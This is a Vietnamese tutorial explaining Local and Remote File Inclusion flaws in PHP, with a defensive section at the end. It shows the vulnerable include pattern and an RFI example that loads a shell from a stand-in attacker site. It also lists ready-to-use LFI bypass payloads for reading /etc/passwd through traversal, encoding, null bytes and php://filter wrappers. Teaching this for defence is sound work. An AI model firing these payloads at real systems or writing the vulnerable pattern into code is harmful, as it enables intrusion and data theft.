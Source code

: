- Tác hại và một số cách bypass
- Local file inclusion (LFI)
- Lỗ hổng Local file inclusion nằm trong quá trình include file cục bộ có sẵn trên server. Lỗ hổng xảy ra khi đầu vào người dùng chứa đường dẫn đến file bắt buộc phải include. Khi đầu vào này không được kiểm tra, tin tặc có thể sử dụng những tên file mặc định và truy cập trái phép đến chúng, tin tặc cũng có thể lợi dụng các thông tin trả về trên để đọc được những tệp tin nhạy cảm trên các thư mục khác nhau bằng cách chèn các ký tự đặc biệt như /,../, -.

- Local file inclusion trong PHP:

- giá trị của file được cung cấp bởi người dùng có thể bị tấn công: https://victim_site/home.php?file=menu
- Giá trị của biến ‘file’ được lấy vào đoạn mã PHP dưới đây: <?php … include($_REQUEST['file'.'.php']); … ?>
- Giờ thì tin tặc sẽ đưa mã độc vào biến file để truy cập trái phép vào file trong cùng chủ mục hoặc sử dụng kí tự duyệt chỉ mục như ../ để di chuyển đến chỉ mục khác. Ví dụ tin tặc lấy được log bằng cách cung cấp đầu vào /apache/logs/error.log hoặc /apache/logs/access.log hay việc đánh cắp dữ liệu liên quan đến tài khoản của người dùng thông qua ../../etc/passwd trên hệ thống Unix.
Remote file inclusion (RFI)
- RFI cho phép tin tặc include và thực thi trên máy chủ mục tiêu một tệp tin được lưu trữ từ xa. Tin tặc có thể sử dụng RFI để chạy một mã độc trên cả máy của người dùng và phía máy chủ. Ảnh hưởng của kiểu tấn công này thay đổi từ đánh cắp tạm thời session token hoặc các dữ liệu của người dùng cho đến việc tải lên các webshell, mã độc nhằm đến xâm hại hoàn toàn hệ thống máy chủ.

- Remote file inclusion trong PHP:

- Ví dụ giá trị của file được cung cấp bởi người dùng có thể bị tấn công: www.victim_site.com/home.php?file=menu
- Giá trị của biến ‘file’ được lấy vào đoạn mã PHP dưới đây: <?php … include($_REQUEST['file'.'.php']); … ?>
- Giờ thì tin tặc sẽ đưa mã độc vào biến file: www.victim_site.com/home.php?test=https://www.attacker_site.com/shell File shell được bao hàm vào trang có sẵn trên máy chủ và thực thi mỗi khi trang home.php được truy cập. Tin tặc sẽ đưa mã độc vào shell và thực hiện hành vi độc hại.
Một số cách bypass:
- Traversal sequences stripped non-recursively:
```
https://victim_site/home.php?file=....//....//....//etc/passwd
https://victim_site/home.php?file=....\/....\/....\/etc/passwd
http://victim_site/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

Null byte (%00):
```
https://victim_site/home.php?file=../../../../etc/passwd%00
```
Encoding:

```
https://victim_site/home.php?file=..%252f..%252f..%252fetc%252fpasswd
https://victim_site/home.php?file=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
https://victim_site/home.php?file=%252e%252e%252fetc%252fpasswd
https://victim_site/home.php?file=%252e%252e%252fetc%252fpasswd%00
```
Path and dot truncation:

```
https://victim_site/home.php?file=../../../etc/passwd............[ADD MORE]
https://victim_site/home.php?file=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
https://victim_site/home.php?file=../../../etc/passwd/./././././.[ADD MORE] 
https://victim_site/home.php?file=../../../[ADD MORE]../../../../etc/passwd
```

Filter bypass tricks:

```
https://victim_site/home.php?file=....//....//etc/passwd
https://victim_site/home.php?file=..///////..////..//////etc/passwd
https://victim_site/home.php?file=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```
Using wrappers:

```
https://victim_site/home.php?file=php://filter/read=string.rot13/resource=index.php
https://victim_site/home.php?file=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
https://victim_site/home.php?file=php://filter/convert.base64-encode/resource=index.php
https://victim_site/home.php?file=pHp://FilTer/convert.base64-encode/resource=index.php
```

- Cách phòng chống
- Lỗ hổng xảy ra khi việc kiểm tra đầu vào không được chú trọng. Khuyến cáo riêng thì không nên hoặc hạn chế tới mức tối thiểu phải sử dụng các biến từ "User Input" để đưa vào hàm include() hay eval(). Trong trường hợp phải sử dụng. với các thông tin được nhập từ bên ngoài, trước khi đưa vào hàm cần được kiểm tra kỹ lưỡng

- Chỉ chấp nhận kí tự và số cho tên file (A-Z 0-9). Blacklist toàn bộ kí tự đặc biệt không được sử dụng.
- Giới hạn API cho phép việc include file từ một chỉ mục xác định nhằm tránh directory traversal.
- Tấn công File Inclusion có thể nguy hiểm hơn cả SQL Injection do đó thực sự cần thiết phải có những biện pháp khắc phục lỗ hổng này. Kiểm tra dữ liệu đầu vào hợp lý là chìa khóa để giải quyết vấn đề.
